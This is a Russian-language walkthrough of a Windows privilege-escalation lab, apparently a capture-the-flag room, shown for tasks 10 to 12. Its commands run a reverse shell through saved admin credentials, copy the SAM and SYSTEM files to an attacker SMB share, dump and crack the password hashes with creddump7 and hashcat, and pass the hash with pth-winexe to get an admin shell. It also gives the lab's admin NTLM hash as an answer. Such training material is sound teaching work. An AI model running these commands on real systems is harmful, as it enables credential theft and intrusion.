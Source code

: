 Запустите прослушиватель на Kali и запустите исполняемый файл reverse.exe с помощью runas с сохраненными учетными 
данными администратора: 

`runas /savecred /user:admin C:\PrivEsc\reverse.exe`

### Ответьте на вопросы ниже
Прочитайте и следуйте указаниям выше.
```commandline
Ответ не нужен
```
## Задание 11
Файлы SAM и SYSTEM могут использоваться для извлечения хэшей паролей пользователей. Эта виртуальная машина небезопасно хранит резервные копии файлов SAM и SYSTEM в  каталоге C:\Windows\Repair\.

Перенесите файлы SAM и SYSTEM на виртуальную машину Kali :
```commandline
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

В Kali клонируйте репозиторий creddump7 (тот, что в Kali, устарел и не будет корректно выгружать хэши для Windows 10!
) и используйте его для выгрузки хэшей из файлов SAM и SYSTEM:

```commandline
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM
```

Взломайте хеш NTLM администратора с помощью hashcat:

`hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`

Вы можете использовать взломанный пароль для входа в систему как администратор с помощью winexe или RDP.

### Ответьте на вопросы ниже
Каков NTLM-хэш пользователя-администратора?

```commandline
a9fdfa038c4b75ebc76dc855dd74f0da
```

## Задание 12
Зачем взламывать хеш пароля, если можно пройти аутентификацию с помощью хеша?

Используйте полный хэш администратора с pth-winexe, чтобы запустить оболочку, работающую от имени администратора, 
без необходимости взлома пароля. Помните, что полный хэш включает в себя как LM, так и NTLM- хэш, разделенные 
двоеточием:  

`pth-winexe -U 'admin%hash' //MACHINE_IP cmd.exe`
